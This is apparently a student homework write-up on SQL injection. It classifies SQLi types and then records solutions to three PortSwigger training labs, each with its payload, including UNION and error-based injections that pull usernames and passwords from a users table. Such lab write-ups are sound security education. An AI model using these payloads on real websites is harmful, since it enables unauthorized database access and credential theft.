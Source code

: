 # Homework 8. SQL injections

## Task 1. SQL injections classification

Most commonly, the bulk of SQL injection falls under one of three categories:

- Classic SQLi, also known as "in-band" SQLi
  - Error-based
  - Union-based

- Inferential SQLi, also known as "blind" SQLi
  - Boolean
  - Time-based

- Out-of-band SQLi

### In-Band SQLi

When in-band SQLi is being leveraged, the threat actor or actors in question leverages the same channel of communication to launch their attacks and to gather their results.

Due to this injection's simplicity and efficiency, it is usable by threat actors of various experience levels, making it the most common type of injection in 2024. The two sub-variations of this injection method are as follows:

- **Error-based SQLi**: Using this method, the hacker executes actions that trigger the targeted database to generate error messages. From there, the hacker can leverage the data provided by these error messages to gather more in-depth information about the structure of the database they have hijacked

- **Union-based SQLi**: Using this method, the hacker takes advantage of the UNION SQL operator, which combines multiple statements generated by the targeted database to generate one single HTTP response. This response can then be used by the hacker for malicious means

### Inferential (Blind) SQLi

By leveraging the inferential SQLi technique, the threat actor in question will submit data payloads to the targeted server. From there, they can observe the response of the server to better learn how to break or hijack its structure.

And where does its other name, "blind", come from? Well, this method earned its title due to how data is not transferred from the website database to the threat actor when the technique is in use, making it so the hacker can't see in-band info. As such, inferential SQL injections rely on the response patterns of the server; however, just because their impacts are not as immediate doesn't mean they aren't equally as harmful as the other two injection categories.

Similarly to in-band SQLi, blind SQL injection sub-categories can be boiled down to the following:

- **Boolean**: When using a boolean SQLi, the threat actor will submit a SQL query to the targeted database in order to prompt the app to return a result. The result will vary depending on whether the query is true or false

- **Time-based**: In this technique, an SQL query will be sent to the intended target's database, which, in turn, forces the targeted database to wait before a reaction can be processed. In these precious few seconds, the threat actor will analyze how long the database takes to respond, as well as if the query clocked as true or false

## Task 2. Accomplish PortSwigger labs

### Lab 1. SQL injection UNION attack, determining the number of columns returned by the query

The lab is available by the [link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

The payload:

```sql
'+UNION+SELECT+NULL,NULL,NULL--
```

Result:

![lab1](lab1.png)

> The web page is rendered without errors

![lab1-proof](lab1-proof.png)

### Lab 2. SQL injection UNION attack, retrieving multiple values in a single column

The lab is available by [link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

The payload:

```sql
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

Result:

![lab2](lab2.png)

![lab2-proof](lab2-proof.png)

### Lab 3. Visible error-based SQL injection

The lab is available by [link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)

The payload:

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Result:

![lab3](lab3.png)

![lab3-proof](lab3-proof.png)
